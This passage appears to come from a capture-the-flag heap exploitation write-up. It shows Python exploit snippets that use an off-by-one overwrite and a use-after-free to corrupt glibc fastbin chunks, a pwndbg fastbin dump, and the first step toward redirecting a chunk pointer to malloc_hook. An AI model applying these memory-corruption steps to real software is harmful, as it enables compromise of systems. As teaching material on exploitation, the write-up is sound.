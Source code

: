 ```
free(1)
create(0xc8,1)

create(0x65,3)  # b
create(0x65,15)
create(0x65,18)

over = "A"*0x18  # off by one
over += "\x71"  # set chunk  1's size --> 0x71
edit(0,over)
info("use off by one ,  chunk  1's size --> 0x71")
```



Generate two `fastbin`s, then use `uaf` to write some addresses and chain `B` to `fastbin`


 



```py
free(2)
free(3)
info("Create two 0x70 fastbin")
heap_po = "\x20"
edit (3, heap_po)
info("Link chunk'1 into fastbin")
```



Debug to see the status of `fastbin` at this time


 



```
pwndbg> fastbins 
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x555555757160 —▸ 0x555555757020 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x7ffff7dd1b78
0x80: 0x0
```



> `0x555555757020` is `chunk B`


Then by modifying the low `2` bytes of `B->fd`, make `B->fd= malloc_hook - 0x23`


 


